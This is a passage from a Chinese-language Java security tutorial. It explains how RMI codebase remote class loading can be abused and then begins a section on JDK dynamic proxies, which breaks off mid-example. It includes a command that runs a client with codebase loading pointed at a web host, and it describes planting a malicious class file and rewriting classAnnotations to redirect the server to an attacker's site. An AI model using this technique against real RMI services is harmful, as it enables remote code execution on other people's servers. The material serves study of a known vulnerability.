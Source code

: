 这个Client我们需要在另一个位置运行，因为我们需要让RMI Server在本地CLASSPATH里找不到类，才会去加载codebase中的类，所以不能将RMIClient.java放在RMI Server所在的目录中。运行RMIClient：

~~~java
java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://example.com/ RMIClient
~~~

我们只需要编译一个恶意类，将其class文件放置在Web服务器的 /RMIClient$Payload.class 即可

条件较苛刻

我们通过对发送RMI数据进行发包发现，有2个TCP连接：

~~~
1. 本机与RMI Registry的通信（在我的数据包中是1099端口）
2. 本机与RMI Server的通信（在我的数据包中是64000端口）
~~~

复制Wireshark识别出的 Java Serialization 数据段，使用SerializationDumper进行解密，序列化后的内容经过解密是类似BNF（巴科斯范式）

这一整个序列化对象，其实描述的就是一个字符串，其值是 refObj 。意思是获取远程的 refObj 对象。

我们的 codebase 是通过 [Ljava.rmi.server.ObjID; 的 classAnnotations 传递的，即使我们没有RMI的客户端，只需要修改 classAnnotations 的值，就能控制codebase，使其指向攻击者的恶意网站。

在序列化Java类的时候用到了一个类，叫 ObjectOutputStream 。这个类内部有一个方法annotateClass ， ObjectOutputStream 的子类有需要向序列化后的数据里放任何内容，都可以重写这个方法，写入你自己想要写入的数据。然后反序列化时，就可以读取到这个信息并使用。

![image.png](https://img10.360buyimg.com/ddimg/jfs/t1/181173/22/39026/37224/652399bcF5a3420c4/774180d05b334bca.jpg)
![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/191811/18/39500/45622/652399dbF0c53ef87/61e9586b684371f5.jpg)

所以，我们在分析序列化数据时看到的 classAnnotations ，实际上就是 annotateClass 方法写入的内容。







### 3.java动态代理机制

Java的自带jdk动态代理机制，位于java.lang.reflect.proxy包中，其本质实现是通过反射执行invoke方法来动态获取执行方法。

代理模式Java当中最常用的设计模式之一。其特征是代理类与委托类有同样的接口，代理类主要负责为委托类预处理消息、过滤消息、把消息转发给委托类，以及事后处理消息等。而Java的代理机制分为静态代理和动态代理，而这里我们主要重点学习java自带的jdk动态代理机制。

![image.png](https://img13.360buyimg.com/ddimg/jfs/t1/132640/10/38823/14321/65238275F07867b2f/101319a554f2b7b0.jpg)

#### 静态代理

定义一个接口

~~~java
public interface Rental {
    public void sale();
}
~~~

委托类，实现接口的方法

